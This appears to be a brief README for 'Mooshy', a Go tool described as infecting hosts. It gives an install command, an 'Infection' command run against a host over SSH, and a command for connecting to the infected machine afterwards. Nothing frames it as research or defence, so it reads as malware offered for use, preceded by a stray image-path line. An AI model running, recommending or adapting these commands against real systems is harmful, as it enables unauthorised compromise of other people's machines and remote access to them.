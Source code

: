# Mooshy

Installation:
```sh
    go get -u -v github.com/rvolosatovs/mooshy/cmd/mooshy
```

Infection:
```sh
    mooshy -ssh -addr <host>
```

Connecting to infected machine:
```sh
    mooshy -addr <host>
```
